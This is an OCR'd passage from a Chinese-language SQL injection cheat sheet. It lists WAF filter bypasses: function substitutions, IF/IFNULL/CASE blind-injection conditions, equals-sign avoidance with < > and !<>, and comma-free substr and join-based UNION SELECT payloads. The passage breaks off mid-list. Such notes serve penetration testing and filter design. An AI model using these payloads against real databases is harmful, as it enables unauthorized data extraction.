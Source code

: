  user() --> @@user、datadir-->@@datadir

  ord()–>ascii()

       //这两个函数在处理英文时效果一样，但是处理中文等时不一致。ascii会报错

  ```

  ### if绕过

  ```sql

  if函数的判断语句

  select if(substr(database(),1,1)='c',1,0);

  IFNULL函数

  select ifnull(substr(database(),1,1)='c',0);

  case when then函数

  select case substr(database(),1,1)='c' when 1 then 1 else 0 end;

  ```

  #### **等号绕过**

  **=号在某种情况下可以用< >符号来进行绕过**

  ```

  Select * from cms_users where userid>0 and userid<2;  //当参数为数字时，可用此来锁定一个1

  另外可结合ascii码来强制转为数字进行锁定

  <> 等价于 != ,所以在前面再加一个 ! 结果就是等号了

  ```

#### **空格绕过**

![46a43ec56fab4fb4bdf7a42f9b83e4a4](markdown-image/46a43ec56fab4fb4bdf7a42f9b83e4a4.png)

#### 逗号绕过

- **对于需要substr截取**

  ```sql

  select substr(database(),1,1)='c';  #等价于

  select substr(database() from 1 for 1)='c';

  ```

  **join关键字**

  ```sql

  union select 1,2,3,4;

  union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);
